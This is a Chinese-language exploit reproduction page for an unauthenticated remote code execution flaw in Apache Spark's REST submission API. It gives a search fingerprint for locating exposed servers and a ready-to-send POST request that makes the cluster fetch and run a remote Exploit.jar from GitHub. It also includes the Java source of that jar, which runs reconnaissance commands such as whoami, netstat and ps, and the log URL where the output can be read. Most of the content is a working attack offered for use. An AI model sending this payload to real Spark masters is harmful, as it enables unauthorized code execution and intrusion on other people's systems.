


# Apache Spark create 未授权访问漏洞

## 漏洞描述

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动ACL（访问控制），我们将可以在集群中执行任意代码。

## 漏洞影响

<a-checkbox checked>Apache Spark 3.1.2, 3.2.1, 3.3.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="APACHE-Spark-Jobs"</a-checkbox></br>

## 漏洞复现

主页面



发送请求包

```php
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
# https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar
# Github代码为编译后的代码
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```



再访问获得的 submissionId Url查看结果

```php
/logPage/?driverId={submissionId}&logType=stdout
```

